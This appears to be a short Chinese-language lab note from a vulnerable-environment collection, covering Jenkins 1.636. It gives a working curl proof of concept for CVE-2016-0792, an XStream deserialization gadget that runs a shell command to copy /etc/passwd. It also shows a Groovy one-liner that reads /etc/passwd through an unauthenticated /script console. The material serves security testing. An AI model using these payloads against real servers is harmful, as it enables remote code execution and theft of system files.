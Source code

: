 ## CVE-2016-0792 - XStream 反序列化漏洞

测试镜像

* src/jenkins/1.636/

参考文档

* [Jenkins - XStream Groovy classpath Deserialization (Metasploit)](https://www.exploit-db.com/exploits/43375/)

Poc

```
# 复制 /etc/passwd 到 /tmp
curl 'http://127.0.0.1/createItem?name=boh3ti8AGh' --data-binary '<map><entry><groovy.util.Expando><expandoProperties><entry><string>hashCode</string><org.codehaus.groovy.runtime.MethodClosure><delegate class="groovy.util.Expando"reference="../../../.."/><owner class="java.lang.ProcessBuilder"><command><string>/bin/bash</string><string>-c</string><string>cp /etc/passwd /tmp</string></command><redirectErrorStream>false</redirectErrorStream></owner><resolveStrategy>0</resolveStrategy><directive>0</directive><parameterTypes/><maximumNumberOfParameters>0</maximumNumberOfParameters><method>start</method></org.codehaus.groovy.runtime.MethodClosure></entry></expandoProperties></groovy.util.Expando><int>1</int></entry></map>' -H 'Content-Type: application/xml'
```

## 运维安全 - /script 无认证

测试镜像

* src/jenkins/1.636/

访问 /script，执行如下内容

```
println "cat /etc/passwd 2>&1".execute().text
```

